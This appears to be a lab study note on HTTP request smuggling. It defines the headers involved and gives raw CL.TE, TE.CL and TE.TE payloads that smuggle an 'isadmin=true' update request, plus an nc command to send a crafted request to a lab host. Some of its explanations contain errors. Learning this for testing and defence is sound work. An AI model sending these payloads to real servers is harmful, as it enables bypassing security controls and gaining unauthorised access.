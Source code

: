 # Request Smuggling
Consider a simple front-end that uses the `Content-Length` header to determine the end of request, and a back-end server that uses the `Transfer-Encoding` header.  

We can craft a request that satisfies the boundry to the front-end sever

## Benefits
1. Evade security mechanisms like WAFs.
2. Poison web caches 3. Chained to exploit other vulnerabilities
4. Hard to detect

## Definitions
| Term | Definition |
| ---- | ---------- |
| Front-end Server | Reverse proxy or load balancer the forwards the request to backend. |
| Back-end server | Processes requests, database, serves to frontend |
| Databases | Store user data |
| Microservices | Small independent services that communicate over REST / HTTP / gRPC |
| Load Balancer | Dsitribute incoming network traffic to other service to prevent overloading | 
| Reverse Proxies | Sits before web servers and forwards client requests to the appropriate server |
| Resource Cache | Doesn't change frequently. (css,js) |
| DB Query Cache | Caches results of frequently used queries |
| Full Page Cache | Entire page & resources cached |
| API Cache | Common responses | 

## Headers

1. Content-Length
Informs the receiver of the request / response size in bytes. 
```sh
POST /submit HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 14

q=smuggledData
```

2. Transfer-Encoding
Specify the form of encoding. Common value is `chunked` indicating that the body is divided each preceeded by it's size in hex.  In the below example `b` indicates `11` and `0` indicates the end.
```sh
POST /submit HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b
q=smuggledData
0
```

## Exploiting CL.TE 
Craft a request that includes the `Content-Length` and `Transfer-Encoding` headers in that order.
```sh
POST /search HTTP/1.1
Host: example.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /update HTTP/1.1
Host: example.com
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

isadmin=true
```

### How it works
- Front end server sees `Content-Length` of 130 bytes and believes the request ends after `isadmin=true`.
- Back end sernver sees the `Transfer-Encoding: chunked` and iterprets `0` as the end of the chunk.
- Back end server then tries to send the remaing portion of the request `POST /update HTTP/1.1` as a separate request.

## Exploiting TE.CL
Craft a request that includes the `Transfer-Encoding` and `Content-Length` headers in that order.
```sh
POST / HTTP/1.1
Host: example.com
Content-Length: 4
Transfer-Encoding: chunked

78
POST /update HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

isadmin=true
0
```

### How it works
- Front-end server sees the `Tranfer-Encoding: chunked` and processes it.
- The `78` is hex for 120 bytes.
- Front-end considers everything up to the `0` as part of the first request.
- Back-end server use `Content-Length: 4` and only processes the first 4 bytes of the request.
- The remaining `POST /update` is then interpreted as a new request.

## Exploiting TE.TE
Exploit how front-end and back-end servers prioritize TE over CL. The aim is to make one server ignore the TE header and use CL instead.
```sh
POST / HTTP/1.1
Host: example.com
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: chunked1


4e
POST /update HTTP/1.1
Host: example.com
Content-Length: 15


isadmin=true
0
```

### How it works
- Front-end receives two `Transfer-Encoding` headers. 
- The first is standard, second chunked
- Server might process based on chunked, instead of broken chunked1
- If the server processes only the first 4 bytes the remaining will be treated separately

## Sending Crafted Request
We won't be able to do this with curl, but nc is a good alternative.

raw.html
```sh
POST / HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 160
Transfer-Encoding: chunked


0


POST /contact.php HTTP/1.1
Host: httprequestsmuggling.thm
Content-Type: application/x-www-form-urlencoded
Content-Length: 500


username=test&query=test
```

Send request
```sh
nc $url 80 < raw.html
```

